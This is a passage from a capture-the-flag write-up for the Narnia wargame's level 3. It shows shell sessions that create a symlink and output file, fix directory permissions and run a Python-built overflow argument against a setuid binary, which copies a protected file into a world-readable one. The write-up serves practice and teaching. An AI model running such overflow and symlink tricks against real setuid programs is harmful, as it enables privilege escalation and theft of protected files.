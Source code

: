 > Symbolic link set.  Now we need to create the actual output file as listed after the ```A``` section of our payload.
>
>```
narnia3@melinda:/run/user/14003$ touch f
narnia3@melinda:/run/user/14003$ chmod 666 f
narnia3@melinda:/run/user/14003$ ls -l
total 0
drwxrwxr-x 3 narnia3 narnia3 60 Jul 20 04:38 AAAAAAAAAAAAAAAA
-rw-rw-rw- 1 narnia3 narnia3  0 Jul 20 04:45 f
>```
>
> Now we should be setup to run. Let's cross our fingers and pull the trigger.
>
>```
narnia3@melinda:/narnia$ ./narnia3 $(python -c 'print "/run/user/14003/"+"A"*16+"/run/user/14003/f"')
error opening /run/user/14003/f
>```
>
> Now what! After checking, re-checking, and double-checking I found the culprit.  It turned out the be a permissions issue in the path.
>
>```
narnia3@melinda:/run$ ls -la
total 196
drwxr-xr-x 18 root       root          660 Jul 20 04:49 .
narnia3@melinda:/run$ cd /run/user/
narnia3@melinda:/run/user$ ls -la
total 0
drwxr-xr-x 42 root       root       840 Jul 20 04:49 .
narnia3@melinda:/run/user$ cd 14003
narnia3@melinda:/run/user/14003$ ls -la
total 0
drwx------  3 narnia3 narnia3  80 Jul 20 04:45 .
narnia3@melinda:/run/user/14003$ cd ..
narnia3@melinda:/run/user$ chmod 777 14003
narnia3@melinda:/run/user$ cd 14003/
narnia3@melinda:/run/user/14003$ ls -la
total 0
drwxrwxrwx  3 narnia3 narnia3  80 Jul 20 04:45 .
drwxr-xr-x 41 root    root    820 Jul 20 04:54 ..
drwxrwxr-x  3 narnia3 narnia3  60 Jul 20 04:38 AAAAAAAAAAAAAAAA
-rw-rw-rw-  1 narnia3 narnia3   0 Jul 20 04:45 f
narnia3@melinda:/run/user/14003$ cd /narnia
narnia3@melinda:/narnia$ ./narnia3 $(python -c 'print "/run/user/14003/"+"A"*16+"/run/user/14003/f"')
copied contents of /run/user/14003/AAAAAAAAAAAAAAAA/run/user/14003/ to a safer place... (/run/user/14003/)
narnia3@melinda:/narnia$ cat /run/user/14003/f
**********
���������S_��narnia3@melinda:/narnia$
>```
>
> Wow. Just wow. That was such a weird little challenge. Off to narnia4 we go.
